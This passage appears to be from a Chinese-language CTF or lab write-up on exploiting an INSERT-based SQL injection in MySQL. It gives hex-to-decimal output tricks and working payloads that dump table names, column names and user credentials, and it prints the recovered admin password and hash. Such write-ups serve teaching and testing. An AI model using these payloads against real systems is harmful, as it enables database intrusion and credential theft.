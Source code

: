 ```sql
1 rows in set (0.01 sec)
```

所以采取先将字符串截取，在将十六进制转化为十进制的方法来解决这个问题，然后将的到的数字再转换回去即可

```sql
mysql> select ''+conv(hex(substr(user(),1,6)),16,10);
+----------------------------------------+
| ''+conv(hex(substr(user(),1,6)),16,10) |
+----------------------------------------+
| 125822936825964                        |
+----------------------------------------+
1 rows in set (0.10 sec)

mysql> select unhex(conv(125822936825964,10,16));
+------------------------------------+
| unhex(conv(125822936825964,10,16)) |
+------------------------------------+
| root@l                             |
+------------------------------------+
1 rows in set (0.11 sec)

```

#### 利用注入

如果利用第一种方式进行注入，那么标题字段应该正文字段前，所以注入点是正文字段，输出是标题字段。在正文处如下测试，标题显示2

```sql
0','1'),('1','2','
```


可见总共四个字段（1+标题+正文+4），正文注入，标题输出。最终payload如下：

```sql
0','1'),('111',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'

0','1'),('222',(select group_concat(column_name) from information_schema.columns where table_name='users'),'

0','1'),('333',(select username from users limit 0,1),'

0','1'),('444',(select password from users limit 0,1),'
```

注意：这里会检查每一条记录的第一个字段，如果重复将执行失败，因为当我复制上一句一模一样的语句居然会执行失败，刚开始我也很奇怪，直到后来注册用户名重复时也提示something wrong我才反应过来，就这一句提示啊！！！坑死了。所以每条我都改成了111，222，333才能执行成功。最终的到用户名密码


admin | dbb616c5d935d8f34c12c291066d6fb7
admin | melody123

### 文件包含
